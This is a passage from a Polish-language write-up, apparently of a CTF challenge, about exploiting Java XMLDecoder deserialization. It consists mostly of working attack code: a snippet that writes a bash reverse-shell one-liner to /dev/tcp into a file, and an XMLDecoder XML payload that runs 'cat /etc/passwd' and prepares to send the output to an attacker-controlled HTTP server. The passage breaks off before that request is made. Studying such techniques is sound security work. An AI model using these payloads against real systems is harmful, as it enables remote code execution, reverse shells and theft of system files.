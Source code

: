 Wykona kod:

```java
PrintWriter p = new PrintWriter("reverse.sh");
p.write("bash -i >& /dev/tcp/1.2.3.4/1234 0>&1");
p.close();
```

tym samym tworząc na serwerze plik z podaną zawartością.

Możemy także nadawać "id" tworzonym obiektom i używać ich jako parametrów dla innych obiektów.

```xml
<void class="java.lang.String" id="someString">
    <string>some data</string>
</void>
<object class = "java.io.PrintWriter">
	<string>reverse.sh</string>
	<method name = "write">
		<object idref="someString"/>
	</method>
	<method name = "close"/>
</object>
```

Mając takie możliwości przygotowaliśmy exploita który pozwalał nam na wykonanie dowolnego kodu na zdalnej maszynie, a wynik przekazywał jako parametr GET wysłany po http do naszego serwera:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_72-internal" class="java.beans.XMLDecoder">

    <void class="java.lang.String" id="command" method="valueOf">
        <object class="java.lang.StringBuilder" id="builder">
            <void class="java.lang.ProcessBuilder">
                <array class="java.lang.String" length="2">
                    <void index="0">
                        <string>cat</string>
                    </void>
                    <void index="1">
                        <string>/etc/passwd</string>
                    </void>
                </array>
                <void method="start" id="process">
                    <void method="getInputStream" id="stream" />
                </void>
                <void class="java.io.BufferedReader" id="bufferedReader">
                    <object class="java.io.InputStreamReader">
                        <object idref="stream"/>
                    </object>
                    <void method="lines" id="lines">
                        <void method="collect" id="collected">
                            <object class="java.util.stream.Collectors" method="joining">
								<string>      </string>
							</object>
                        </void>
                    </void>
                </void>
            </void>
            <void method="append">
                <string>http://our.server.net/exp/</string>
            </void>
            <void method="append">
                <object idref="collected"/>
            </void>
        </object>
    </void>
```